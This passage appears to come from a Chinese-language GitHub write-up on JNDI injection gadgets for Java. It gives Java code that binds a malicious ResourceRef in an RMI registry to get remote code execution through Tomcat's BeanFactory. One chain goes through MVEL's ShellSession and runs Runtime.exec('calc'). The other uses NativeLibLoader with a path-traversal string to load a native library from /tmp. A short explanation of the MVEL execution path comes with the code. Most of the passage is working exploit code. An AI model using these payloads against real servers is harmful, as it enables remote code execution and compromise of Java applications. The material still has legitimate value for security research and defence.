 ##### use  `org.apache.naming.factory.BeanFactory` +  `org.mvel2.sh.ShellSession`

> 需要tomcat组件
>
> MVEL组件

```java
Registry registry = LocateRegistry.createRegistry(1099);
ResourceRef ref = new ResourceRef("org.mvel2.sh.ShellSession", null, "", "",
        true, "org.apache.naming.factory.BeanFactory", null);
ref.add(new StringRefAddr("forceString", "a=exec"));
ref.add(new StringRefAddr("a",
        "push Runtime.getRuntime().exec('calc');"));
ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
registry.bind("test", referenceWraper);
```

首先因为`org.mvel2.sh.ShellSession`类满足beanFactory的条件，之后在它的`exec`方法中会调用`_exec`，其中将会执行很多命令，其中包括有`push`命令，他会首先取出第一个输入判断执行什么命令，这里是push所以跟进`PushContext`类

![image-20220730000703803](README/image-20220730000703803.png)

在这个类中他会调用`MVEL#eval`进行命令的执行

![image-20220730000924884](README/image-20220730000924884.png)

##### use  `org.apache.naming.factory.BeanFactory` +  `com.sun.glass.utils.NativeLibLoader`

> JDK内置的类

```java
private static ResourceRef tomcat_loadLibrary(){
    ResourceRef ref = new ResourceRef("com.sun.glass.utils.NativeLibLoader", null, "", "",
            true, "org.apache.naming.factory.BeanFactory", null);
    ref.add(new StringRefAddr("forceString", "a=loadLibrary"));
    ref.add(new StringRefAddr("a", "/../../../../../../../../../../../../tmp/libcmd"));
    return ref;
}
```
